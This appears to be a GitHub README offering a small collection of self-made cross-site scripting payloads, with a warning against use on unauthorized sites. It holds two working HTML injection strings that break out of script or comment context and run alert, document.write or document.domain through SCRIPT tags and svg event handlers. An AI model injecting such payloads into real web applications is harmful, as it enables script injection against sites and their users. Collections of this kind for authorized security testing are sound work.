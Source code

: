 # xss
Personally created XSS payloads

## Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>
> so, do no use them unless you're sure the web app will not be damaged! <br>

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>
> to any script kiddies who decide to execute those on random places, you have been warned!

## document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

## document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```
